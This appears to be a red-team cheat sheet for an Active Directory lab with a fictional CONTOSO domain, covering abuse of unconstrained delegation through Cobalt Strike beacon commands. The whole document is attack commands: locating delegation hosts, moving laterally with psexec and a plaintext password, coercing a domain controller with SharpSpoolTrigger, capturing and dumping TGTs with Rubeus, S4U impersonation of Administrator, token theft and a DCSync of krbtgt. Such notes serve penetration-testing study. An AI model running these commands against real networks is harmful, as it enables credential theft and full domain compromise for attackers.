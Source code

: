 
Search for computers configured for Unconstrained Delegation
```powershell
ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname
```

Within SYSTEM level beacon on Unconstrained Delegation host, monitor for incoming TGTs on host
```powershell
make_token CONTOSO\rsteel Passw0rd!
jump psexec64 lon-ws-1 smb
```

> Few options here: 

1.  Perform coercion to make a high level machine (DC) connect

		Monitor incoming tickets on unconstrained host (High integrity beacon)
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap
```

		From a medium integrity beacon; may need to run a few times
```powershell
execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe lon-dc-1 lon-ws-1
```

		Turn TGT into a usable service ticket impersonating Administrator; /self
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:ldap/lon-dc-1.contoso.com /nowrap /ticket:
```

> Use the FQDN for the services to avoid oopsies

2. Dump tickets from memory

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x6c5b5 /service:krbtgt /nowrap
```

---

Inject TGT into sacrificial logon session
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:dyork /password:FakePass /ticket:
```

Impersonate spawned process and confirm
```powershell
steal_token [PID]
run klist

rev2self       <--- Drop impersonation
kill [PID]
```

DCsync??
```powershell
dcsync CONTOSO.COM CONTOSO\krbtgt
```

